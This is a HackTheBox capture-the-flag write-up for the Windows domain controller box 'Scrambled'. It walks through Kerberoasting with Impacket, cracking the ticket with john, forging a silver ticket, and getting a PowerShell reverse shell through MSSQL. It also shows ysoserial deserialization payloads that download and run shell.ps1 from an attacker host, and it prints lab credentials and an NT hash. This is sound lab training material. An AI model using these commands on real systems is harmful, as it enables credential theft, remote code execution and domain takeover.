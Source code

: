 ```yaml
---
layout: default
title: "Scrambled"
parent: HackTheBox
---
```


# Scrambled: HackTheBox WriteUP

# Box Info

|-------|---------|
| Name | Scrambled 🥚 |
| OS | Windows 🪟 |
| Rating | Easy |



## Enumration

## Nmap Scan

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-17 05:17:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2022-06-17T05:17:47
|_  start_date: N/A
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
4411/tcp open  found?
|     SCRAMBLECORP_ORDERS_V1.0.3;
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open  mc-nmf  .NET Message Framing
```

## Enumrating the WEB-Server
The is nothing much on the web server but few things which can be noted:
- NTML Authentication is disabled
- Ksimpson can be valid username
- Reseted accounts have their passwords same as their username

## Getting a TGS
We validated the user `ksimpson` and it's password same as username using [Kerbrute](https://github.com/TarlogicSecurity/kerbrute)

And now using Impacket's `GetUserSPNs.py` we can see which service our user `ksimpson` can request for

```shell
$ python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023  
```

So we can request a **TGS** for `sqlsvc` service using 
```shell
$ python3 spn.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local -request
```

{: .important-title }
>{: .opaque }
> Issue with Impacket while using Kerberose Authentication
>
>  [Impacket Issue 1206](https://github.com/SecureAuthCorp/impacket/issues/1206)


After getting the `TGS` tried cracking it using `john` and got the password for the service's account `sqlsvc`

```shell
$ john ./krbtgs --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:15 DONE (2022-06-18 02:53) 0.06464g/s 693566p/s 693566c/s 693566C/s Peguero..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```

## Forging a Silver Ticket

To forge a `Silver Ticket` we need 
- Service account SPN
- Service account Password in NT hash format
- Domain SID

We can use a tool called [Go-WindapSearch](https://github.com/ropnop/go-windapsearch) to enumrate all users,computers and groups etc. Using this tool I got all users with their SPNs and SIDs

```shell
$ ./windapsearch -d 10.10.11.168 -u ksimpson@scrm.local -p ksimpson --secure -j -m users --full
```

After getting all the information we can use another useful Impacket tool called `ticketer` to forge a Silver Ticket

```shell
$ python3 ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip 10.10.11.168 -spn "MSSQLSvc/dc1.scrm.local"  Administrator
```


## Getting User

Then we can access the **MS SQL** service

```shell
$ export KRB5CCNAME=Administrator.ccache

$ impacket-mssqlclient -k DC1.scrm.local
```

From there got a username and a password
`MiscSvc : ScrambledEggs9900`

We can get a shell from here using `enable_cmd_xp` and executing command to get a powershell reverse shell

since we got the password for a user, we can switch to that user using 

```powershell
$user='scrm\MiscSvc';$pass='ScrambledEggs9900';try { Invoke-Command -ScriptBlock { <Reverse Shell here> } -ComputerName DC1 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }
```

We can directly get the shell as `MiscSvc`

# Privilage Escalation

In the `Shares` folder we have access to `IT\Apps\` were we can find an `.exe` and a `.dll`. The Client to access the service on port `4411`.

To analyze the `.exe` and `.dll` I used `dotPeek` software.
![1](../../resources/scrambled/1.png)

`UploadOrder` is a command as well ==> `UPLOAD_ORDER`. On running this command it seems like it's doing some deserialization.

References :
+ [Insecure deserialization Json .Net](https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a)
+ [Yet another .Net deserialization](https://medium.com/@frycos/yet-another-net-deserialization-35f6ce048df7)
+ Reverse Shell used : [Ivan Sincek PowerShell reverse TCP](https://github.com/ivan-sincek/powershell-reverse-tcp)

```shell
C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "bitsadmin /transfer n http://10.10.14.10/shell.ps1 C:\Temp\shell.ps1"

C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "PowerShell -ExecutionPolicy Unrestricted -File C:\Temp\shell.ps1"
```

And we get shell as **Administrator**